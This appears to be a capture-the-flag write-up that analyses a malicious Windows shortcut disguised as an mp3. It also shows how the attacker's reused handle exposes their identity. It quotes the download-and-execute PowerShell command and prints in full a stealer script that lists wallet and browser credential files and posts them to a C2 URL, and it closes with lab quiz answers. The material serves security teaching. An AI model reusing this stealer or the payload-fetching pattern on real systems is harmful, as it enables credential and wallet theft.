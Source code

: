 # Day 1 - OPSEC

## Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

In this room, the following are covered:

1. Analyzing lnk files
2. Using OPSEC failures to track down malicious actors and their activities. This can be done by looking for crumbs of information they leave behind (like common usernames on different websites, etc.)

![image.png](images/image.png)

We are taken to an youtube to mp3 / mp4 downloader web page. Here we make use of any Youtube URL and then click on Download. We get a zip file downloaded and upon extraction, we can see 2 mp3 files namely song.mp3 and somg.mp3:

![image.png](images/image%201.png)

Running the file command to identify the file type, we see the following:

![image.png](images/image%202.png)

The file somg.mp3 is an MS Windows shortcut (which should use the .lnk extension). To dig deeper into this suspicious file, we can make use of exiftool:

![image.png](images/image%203.png)

The path, working directory and command line parameters reveal something very interesting. We see that some sort of powershell script is embedded into this lnk file.

What this PowerShell command does:

- The `ep Bypass -nop` flags disable PowerShell's usual
restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

Visiting the GitHub link on our web browser, we get to see the contents of `IS.ps1`:

```bash
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server

```

The script performs some very suspicious tasks like collecting credential data from browser files, searching for crypto wallets and eventually sending them over to a C2 (Command and Control Server).

### Gathering more details on M.M:

We were able to find a GitHub URL embedded in the lnk file disguised as an mp3 file. There are many paths we could take to continue our investigation. We could investigate the website further, analyze its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or Any.Run. Each of these methods could yield useful clues.

We can also look more on M.M on GitHub, since that is where the powershell file is being downloaded from. On looking up the string “Created by the one and only M.M.”

On navigating to the issues section of Bloatware’s CryptoWallet-Search repository, we see an interesting interaction between MM and Bloatware-WarevilleTHM:

![image.png](images/image%204.png)

Based on the description in the introduction of the challenge, we can conclude that M.M. is indeed Mayor Malware!

![image.png](images/image%205.png)

This is a classic case of OPSEC failure.

### Operational Security (OPSEC)

OPSEC is a term originally coined in the military to refer to the process of  protecting sensitive information and operations from adversaries. The  goal is to identify and eliminate potential vulnerabilities before the  attacker can learn their identity.

In the context of cyber security, when malicious actors fail to follow proper OPSEC practices, they might leave digital traces that can be pieced together to reveal their identity. Some common OPSEC mistakes include:

- Reusing usernames, email addresses, or account handles across multiple platforms. One might assume that anyone trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
- Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
- Posting publicly on forums or GitHub (Like in this current scenario) with details that tie back to their real identity or reveal their location or habits.
- Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

We know the attacker left a distinctive signature in the PowerShell code (MM). This allowed us to search for related repositories and  issues pages on GitHub. We then discovered an Issues page where the  attacker engaged in discussions, providing more context and linking their activity to other projects.

## Questions

1. Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

![tyler.png](images/tyler.png)

Ans: **Tyler Ramsbey**

1. The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

Ans: `http://papash3ll[.]thm/data`

1. Who is M.M? Maybe his Github profile page would provide clues?

Ans: **Mayor Malware**

1. What is the number of commits on the GitHub repo where the issue was raised?

![image.png](images/image%206.png)

Ans: **1**
